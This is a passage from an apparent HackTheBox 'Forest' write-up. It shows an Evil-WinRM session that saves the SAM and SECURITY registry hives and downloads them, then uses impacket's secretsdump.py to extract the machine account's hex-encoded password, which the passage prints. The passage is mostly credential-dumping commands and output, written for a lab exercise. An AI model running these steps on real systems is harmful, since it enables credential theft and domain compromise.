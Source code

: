 ```powershell
The operation completed successfully.

*Evil-WinRM* PS C:\Users\Administrator\Documents> reg save hklm\sam sam
The operation completed successfully.

*Evil-WinRM* PS C:\Users\Administrator\Documents> reg save hklm\security security
The operation completed successfully.

*Evil-WinRM* PS C:\Users\Administrator\Documents> download system
Info: Downloading system to ./system

                                                             
Info: Download successful!

*Evil-WinRM* PS C:\Users\Administrator\Documents> download sam
Info: Downloading sam to ./sam

                                                             
Info: Download successful!

*Evil-WinRM* PS C:\Users\Administrator\Documents> download security
Info: Downloading security to ./security

                                                             
Info: Download successful!

*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```

After we download the SAM SYSTEM and SECURITY file we can use `secretsdump.py` once again to dump all of the information into a human-readable format. Below is the command to grep out the hex-encoded original machine password of the target machine from the output of the greater script.

```bash
python3 impacket/examples/secretsdump.py -sam sam -system system -security security local | grep hex
```

![Screenshot](/assets/images/2023-01-29-Forest-HTB-Writeup/Screenshot_20230129_235222.png)

```powershell
$MACHINE.ACC:plain_password_hex:b0d80183284230880ccef2ffe63a715ab1f5b363ccff5929f04f4aa3ef71af6ed7bae7c63cc11b73e54dfa08bfb5ed1af07b4dac2e93110ae025065810f8e862ff41dd9c14b41b1d947b431c0493a472be10f31d3ccf9a83beb81b9f0a207e85594a56a130c632974d1ef4977b214efd456b066399583ac64b470444e890a9df8a2c13bd715c68a94ca0f55795500e8a2db8d6f10b451bd3a18370bc3063da3fffa65702d2dc8530a0fd54dbfe02e6ac2990450fa39ee5941d58a076bcf59171e8f4092943fd49107c289db60d158cff0dd7662779c44944ff44f9e0282d1f83eb97f450f37ec479a9aca75f9e1ffb35
```
